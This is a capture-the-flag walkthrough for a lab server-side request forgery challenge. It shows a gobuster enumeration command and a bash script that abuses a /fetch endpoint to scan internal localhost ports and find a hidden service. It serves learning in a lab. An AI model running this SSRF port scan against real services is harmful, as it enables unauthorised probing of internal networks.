







# SSRF CTF Walkthrough

## Challenge Description
**This website is currently under construction but can reach other internal webservices on the same host, are you able to find the flag?**  


## Walkthrough  


Reach the website landing page:  
  

Launch a fuzzer/bruteforcer tool like [*gobuster*](https://github.com/OJ/gobuster) to identify website's endpoints:  
```sh
gobuster dir -k -t 2 -u http://localhost  -w /usr/share/wordlists/dirb/big.txt -b 404,401
```  

Gobuster identifies the "fetch" endpoint:  

  

Go to that url and inspect the error message:  
  

Try to submit the url parameter:  
  


Submit an url with the correct schema:  
  

You know from the challenge description that the website can reach other webservices on the same host, try a random port:  
  

Unfortunately no luck, you need to create an automation, for example the following script:  
```sh
#!/bin/bash

# Base URL for the public-facing service
base_url="http://localhost/fetch?url="

# Targeting localhost within the container
internal_host="http://localhost"

# Range of ports to brute force (you can adjust this range)
start_port=1000
end_port=30000

# Loop through the port range and make a request to each one
for port in $(seq $start_port $end_port); do
    target_url="${internal_host}:${port}"
    full_url="${base_url}${target_url}"
    
    # Make a request to the /fetch endpoint and store the result
    response=$(curl -s "$full_url")

    # Check if the response contains content and does not have error messages
    if [ -n "$response" ] && [ "$(echo "$response" | grep -c '"status":"success"')" -eq 1 ]; then
        echo "Port $port responded: $response"
    fi
done
```  

With the previous script you get the flag!  
  


